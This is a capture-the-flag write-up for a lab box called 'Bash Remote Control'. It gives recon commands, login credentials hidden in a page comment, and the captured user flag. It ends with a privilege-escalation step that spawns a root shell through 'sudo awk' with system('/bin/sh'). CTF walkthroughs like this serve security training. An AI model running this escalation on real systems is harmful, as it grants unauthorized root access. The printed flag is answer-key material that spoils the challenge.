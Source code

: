 # Bash Remote control

## Intro

Hello guys,

This is the official writeup of the box Bash Remote Control.

Let's get started.

## Recon


**Rustscan**
```
rustscan yourip
```
*Output*
```
IP:22
IP:80
```
**Viewing the Server**
When we go to the server, we are greeted with a meme guy and when we look at the source, we see an html comment
```
<!-- memes and hacking -->
```

## Gaining Access
The username and password are memes:hacking

## User.txt(user_flag.sh is a trap)

Many commands are locked... We can unlock them by typing
```
nano .bashrc
```

And remove the aliases.
Then we logouut and login again...
Then
```
cat .profile
```


We find
```
flag{b45h_ru135}
```

## Privelege Esc.

Using the GTFO bins link...
https://gtfobins.github.io/gtfobins/awk/

We can use:

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

OR

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

## Root.txt
```
cat .flag
```

# THE END
